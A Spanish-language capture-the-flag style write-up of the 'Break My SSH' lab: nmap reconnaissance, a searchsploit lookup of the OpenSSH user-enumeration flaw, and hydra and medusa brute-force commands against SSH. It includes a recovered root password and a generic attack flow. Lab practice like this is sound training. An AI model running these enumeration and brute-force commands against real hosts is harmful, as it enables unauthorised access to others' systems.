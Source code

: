 - Tags: #BreakMySSH
---
- [Break My SSH](https://mega.nz/file/hfE3lbwZ#ExAcF54AyOHeJqgH2R4cDIAGc5IVlJnI5Rs-Us2QMpM) ==> Enlace de descarga al laboratorio, procedemos a descargar el comprimido, Lo descomprimimos y lo desplegamos:
```bash
7z x breakmyssh.zip

sudo bash auto_deploy.sh breakmyssh.tar
```
---
- **( 172.17.0.2 )** ==> Direccion ip del **target**

- #### Fase Reconocimiento:
```bash
ping -c 1 172.17.0.2 # Lanzamos un ping para ver la conectividad con el target y por el ttl determinamos que estamos ante una maquina Linux

 wichSystem.py 172.17.0.2

172.17.0.2 (ttl -> 64): Linux # Nuestra utilidad nos confirma que estamos ante una maquina linux
```
---

- #### Fase Reconocimiento Puertos:
```bash
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts # Solo detectamos el puerto 22 ssh expuesto
```
---
- **@** Realizamos un escaneo exhauxtivo para dermniar el servicio y la version que corren detras de este puerto
```bash
nmap -sC -sV -p22 172.17.0.2 -oN targeted 
```
---
- **(  22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0) )** ==> Tenemos expuesto esta version de **ssh** desactualizada. El cual es nuestro posible vector de ataque, Buscamos por un exploit para la posible enumeracion **ssh**
```bash
searchsploit ssh user enumeration
```
---
```bash
searchsploit ssh user enumeration

OpenSSH < 7.7 - User Enumeration (2)  |  linux/remote/45939.py # Usaremos este exploit para realizar enumeracion.
```
---

- # Fase Explitacion

- **Nota** ==> Para nuestro caso usaremos la herramienta **hydra** para obtener las credenciales:
```bash
hydra -L /usr/share/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt -t 4 -f ssh://172.17.0.2

# Credenciales obtenidas
[22][ssh] host: 172.17.0.2   login: root   password: estrella

 ssh-keygen -R 172.17.0.2 && ssh root@172.17.0.2 # Nos conectamos con privilegios elevados.
```

#### 1. Verificar Vulnerabilidades Conocidas
OpenSSH 7.7 (2018) tiene vulnerabilidades reportadas. Las más relevantes son:

##### CVE-2018-15473 (User Enumeration):
   - **Descripción**: Permite enumerar usuarios válidos analizando diferencias en los tiempos de respuesta del servidor al intentar autenticarse.
   - **Herramienta**: `ssh-user-enum` o `Metasploit (auxiliary/scanner/ssh/ssh_enumusers)`.
   - **Uso**:
     ```bash
     python3 ssh-user-enum.py -U usuarios.txt -t 192.168.1.100
     ```
     - `usuarios.txt`: Lista de posibles usuarios (ej: `admin`, `root`, `test`, nombres comunes).

##### Otras CVEs:
   - **CVE-2021-41617** (vulnerabilidad en versión patched a partir de 8.8): No aplica para 7.7.
   - **Conclusión**: La versión 7.7 no tiene exploits públicos críticos para RCE o bypass de autenticación, pero sí permite enumeración de usuarios.
---
#### 2. Enumerar Usuarios Válidos
Si no hay CVEs explotables, usa técnicas alternativas:\
##### a. Fuerza Bruta de Usuarios:
   - **Diccionarios recomendados**:
     - `/usr/share/seclists/Usernames/` (Kali Linux).
     - Listas personalizadas basadas en el contexto (ej: nombre de empresa + palabras comunes).
   - **Herramientas**:
     - `hydra` para SSH:
       ```bash
       hydra -L usuarios.txt -P passwords.txt ssh://IP -t 4 -V
       ```
     - `medusa`:
       ```bash
       medusa -h IP -U usuarios.txt -P passwords.txt -M ssh
       ```
---
#### 3. Fuerza Bruta de Credenciales
Una vez obtenidos posibles usuarios:

##### Ataque con Diccionarios:
   - **Listas de contraseñas recomendadas**:
     - `rockyou.txt` (clásico).
     - `SecLists/Passwords/Common-Credentials/`.
   - **Comando Hydra**:
     ```bash
     hydra -L usuarios_validos.txt -P rockyou.txt -t 6 -V -f ssh://IP
     ```
     - `-f`: Detiene el ataque al encontrar la primera contraseña válida.

##### Reglas de Transformación:
   - Usa `hashcat` o `John the Ripper` para generar variantes de contraseñas (ej: añadir números o símbolos al final).
---
#### Ejemplo de Flujo de Ataque Exitoso
1. **Enumerar usuarios** con `ssh-user-enum` y obtener `usuario: admin`.
2. **Fuerza bruta de contraseña** con Hydra:
   ```bash
   hydra -l admin -P rockyou.txt ssh://IP -V
   ```
3. **Resultado**: 
   ```bash
   [22][ssh] host: IP   login: admin   password: admin123
   ```
4. **Acceso concedido**:
   ```bash
   ssh admin@IP
   ```
---